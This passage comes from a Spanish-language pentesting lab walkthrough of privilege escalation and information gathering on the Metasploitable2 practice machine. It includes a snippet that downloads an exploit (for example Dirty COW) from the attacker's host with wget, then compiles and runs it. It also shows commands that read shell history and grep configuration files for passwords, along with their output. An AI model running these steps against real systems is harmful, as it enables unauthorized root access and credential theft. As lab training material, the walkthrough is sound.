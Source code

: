 No nos devuelve nada, demostrando que con el usuario actual no existe archivo alguno en toda la raíz / en el que podamos escribir.

```bash
# Comandos que puedo usar como sudo (a veces la password es la misma)
sudo -l
```

**Resultado:**

Como intentamos listar los archivos con sudo, nos pide una contraseña la cual aún no hemos obtenido. 
Para salir de passwod: presionamos Control + C


En Metasploitable2, es común encontrar vectores como:

- Exploits locales del kernel (Linux 2.6.24 tiene varios public exploits para LPE).
- SUID binarios mal configurados.
- Credenciales en archivos.

Ejemplo: subir un exploit local (Dirty COW, etc) desde Kali:

```bash
wget http://<tu-ip>/exploit.c
gcc exploit.c -o exploit
./exploit
```

## 📂 Paso 10: Recolectar información sensible

Recopilaremos:

```bash
# Historial de comandos
cat ~/.bash_history
```

**Resultado:**

No encontramos historial en la máquina atacante de comandos.

```bash
# Archivos con contraseñas
grep -i "password" /etc/*.conf 2>/dev/null
```

**Resultado:**

/etc/cowpoke.conf:# using a simple password (or worse, a normal user password), then you can
/etc/debconf.conf:# World-readable, and accepts everything but passwords.
/etc/debconf.conf:Reject-Type: password
/etc/debconf.conf:# Not world readable (the default), and accepts only passwords.
/etc/debconf.conf:Name: passwords
/etc/debconf.conf:Accept-Type: password
/etc/debconf.conf:Filename: /var/cache/debconf/passwords.dat
/etc/debconf.conf:# databases, one to hold passwords and one for everything else.
/etc/debconf.conf:Stack: config, passwords
/etc/debconf.conf:# A remote LDAP database. It is also read-only. The password is really
/etc/devscripts.conf:# options may be used to specify the username and password to use.
/etc/devscripts.conf:# If only a username is provided then the password will be prompted for
/etc/devscripts.conf:# BTS_SMTP_AUTH_PASSWORD=pass
/etc/hdparm.conf:# --security-set-pass Set security password
/etc/hdparm.conf:# security_pass = password
/etc/hdparm.conf:# --user-master Select password to use
tomcat55@metasploitable:/$ 
